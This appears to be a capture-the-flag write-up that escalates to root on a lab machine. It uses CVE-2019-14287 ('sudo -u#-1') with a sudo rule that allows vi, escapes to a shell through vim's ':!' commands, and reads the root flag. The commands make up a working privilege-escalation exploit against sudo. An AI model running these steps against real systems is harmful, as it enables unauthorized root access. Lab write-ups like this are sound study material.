

[< Back](../../README.md)

Inside the SSH as user `gabriel`, let's do a `sudo -l`
```
User gabriel may run the following commands on muso-troglodytarum:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gabriel/user.txt
```
We have a pretty interesting permission here: `(ALL, !root)`, looking around the internet for anything using this all but root, we find CVE-2019-14287, a privilege escalation vulnerability with `sudo`.

Let's try it out:
```
sudo -u#-1 /usr/bin/vi /home/gabriel/user.txt
```

We get access to a vim editor that seems a little bit cursed, we can execute shell commands in the command interpreter of vim with the following format:
```
:![command]
```
So let's see if the UE worked:
```
:!whoami
```
<p></p>

We are now root, let's get the flag:
```
:!cat /root/root.txt
```
